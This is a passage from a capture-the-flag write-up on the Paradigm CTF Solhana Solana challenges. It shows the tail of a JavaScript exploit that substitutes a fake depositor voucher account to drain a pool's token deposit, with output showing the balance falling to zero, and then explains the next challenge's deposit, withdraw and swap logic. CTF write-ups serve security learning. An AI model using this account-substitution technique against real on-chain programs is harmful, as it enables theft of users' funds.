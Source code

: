 ```js
            depositorAccount: player_bitcoin_token_account,
            depositorVoucherAccount: fake_depositor_account,
            tokenProgram: spl_token.TOKEN_PROGRAM_ID
        }})
    );
    // signing and sending the transaction
    const sign = await web3.sendAndConfirmTransaction(conn, txn, [player]);
    console.log("Signature: "+ sign);
}
```
[Source](https://github.com/sh15h4nk/ParadigmCTF-Solhana)\
This should steal the tokens from the deposit account of the state.

```bash
Amount : 1000000
Created new Mint : 2T1ZhsdN8wxhJQwB7ytrKuoessF2oKHnFmRzqEAb2V4A
Minted 1000000 to a new voucher_depositor_account: AKV14tGAMz1GfwGFACokuZUkHhTPBCwFJa3sgUpgk6Ni
Transfered the authority to the state
Player bitcoin token address:  PublicKey {
  _bn: <BN: e22a4f62bd92c39a81da78a835c4d5560e022ca557468ce705e97cefdee25d81>
}
Signature: 5mtRKdd4qqezrQMqKBcEe9h4rHoS37JW3Rb2ASzLmBe29dwN7kcCpGgV2f5vcVbmi7vGpaidpEdK6coaugDU9icZ
Amount : 0
```


<br><br>


# SOLHANA 2

- Deposit does the same as before
    Tokens (woEth,soEth,stEth) are deposited to the pool account and voucher tokens are minted to the user.
    - Transfers the tokens from depositor_account to pool_account.
    - Mints new tokens to the depositor_voucher_account.
    
- Withdraw also does the same as before
    Used to withdraw the voucher tokens for the original tokens.
    - Burns the tokens from depositor_voucher_account.
    - Transfers the tokens from pool_account to depositor_account, that are previously transfered in the deposit fn.

- Swap does two transfers [from_amount: u64]
    - to_amount, check_amount are calculated from the from_amount.
    - Transfers the tokens from from_swapper_account to from_pool_account of amount from_amount.
    - Transfers the tokens from to_pool_account to to_swappers_account of amount to_amount (previously calculated).


## What I understood:
DEPOSIT  = (amount) => Transfers amount of tokens to pool deposit account `&&` Mints tokens to a pool voucher account.\
WITHDRAW = (amount) => Burns the user pool voucher account's tokens `&&` Transfer an amount of tokens to user token account.\
SWAP = (from_amount) => Calculates to_amount `&&` Transfer a from_account to the pool `&&` Transfers a to_amount to swapper.
